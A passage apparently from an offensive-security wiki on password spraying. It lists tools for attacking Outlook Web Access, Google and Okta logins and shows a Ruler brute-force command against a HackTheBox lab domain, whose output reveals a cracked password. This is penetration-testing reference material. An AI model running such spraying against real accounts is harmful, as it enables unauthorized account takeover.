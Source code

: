```

> Tip: SpearSpray’s default LDAP page size is 200; adjust with -lps as needed.

## Outlook Web Access

There are multiples tools for p**assword spraying outlook**.

- With [[https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login/|MSF Owa_login]]
- with [[https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_ews_login/|MSF Owa_ews_login]]
- With [[https://github.com/sensepost/ruler) (reliable!|Ruler]]
- With [[https://github.com/dafthack/DomainPasswordSpray) (Powershell|DomainPasswordSpray]]
- With [[https://github.com/dafthack/MailSniper) (Powershell|MailSniper]]

To use any of these tools, you need a user list and a password / a small list of passwords to spray.

```bash
./ruler-linux64 --domain reel2.htb -k brute --users users.txt --passwords passwords.txt --delay 0 --verbose
    [x] Failed: larsson:Summer2020
    [x] Failed: cube0x0:Summer2020
    [x] Failed: a.admin:Summer2020
    [x] Failed: c.cube:Summer2020
    [+] Success: s.svensson:Summer2020
```
```
## Google

- [[https://github.com/ustayready/CredKing/blob/master/credking.py|https://github.com/ustayready/CredKing/blob/master/credking.py]]

## Okta

- [[https://github.com/ustayready/CredKing/blob/master/credking.py|https://github.com/ustayready/CredKing/blob/master/credking.py]]
- [[https://github.com/Rhynorater/Okta-Password-Sprayer|https://github.com/Rhynorater/Okta-Password-Sprayer]]
- [[https://github.com/knavesec/CredMaster|https://github.com/knavesec/CredMaster]]

## References

- [[https://github.com/sikumy/spearspray|https://github.com/sikumy/spearspray]]
- [[https://github.com/TarlogicSecurity/kerbrute|https://github.com/TarlogicSecurity/kerbrute]]
- [[https://github.com/Greenwolf/Spray|https://github.com/Greenwolf/Spray]]
- [[https://github.com/Hackndo/sprayhound|https://github.com/Hackndo/sprayhound]]
- [[https://github.com/login-securite/conpass|https://github.com/login-securite/conpass]]
- [[https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying|https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying]]
- [[https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell|https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell]]
- [[https://www.blackhillsinfosec.com/?p=5296|www.blackhillsinfosec.com/?p=5296]]
- [[https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying|https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying]]
- [[https://0xdf.gitlab.io/2025/08/28/htb-sendai.html|HTB Sendai – 0xdf: from spray to gMSA to DA/SYSTEM]]

